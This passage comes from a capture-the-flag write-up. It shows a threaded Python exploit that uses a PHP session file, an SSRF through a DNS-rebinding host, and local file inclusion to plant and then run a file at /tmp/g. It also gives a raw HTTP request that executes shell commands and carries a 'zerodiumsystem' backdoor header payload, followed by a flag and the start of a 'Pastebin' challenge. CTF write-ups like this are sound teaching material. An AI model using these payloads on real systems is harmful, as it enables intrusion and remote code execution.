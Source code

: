 ```python
    filename = '/var/lib/php/sessions/sess_' + sess_name
    # print filename
    while 1:
        url = '{}?%F0%9F%87%B0%F0%9F%87%B7%F0%9F%90%9F=http://36573657.7f000001.rbndr.us:5000//korea/error_page%3Ferr={}'.format(HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        print [c]

runner = runner1

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```

Meanwhile using Burp we just need to send `POST /?p=../../../../../../var/lib/php/sessions/sess_iamkaibro2 HTTP/1.1` using Intruder until we create the /tmp/g file

To get the flag we just then include the /tmp/g and pass the command:

```
POST /?p=/tmp/g&f=cat+ff63dda359c9811e3aa389.flag HTTP/1.1
Host: inception.ga
Content-Length: 21
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://inception.ga
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
User-Agentt: zerodiumsystem('id')
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inception.ga/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=s&password=b
```

**RST{08e9eedf4837ffc91772e3d09fd437db}**

<a name="pastebin"></a>
# Pastebin (496) - web

Description:
```
I launched a pastebin service and added the flag to one of the posts. Can you find it?

Challenge link: http://vps-f8bcd6cb.vps.ovh.net/pastebin/

Author: Dragos
```
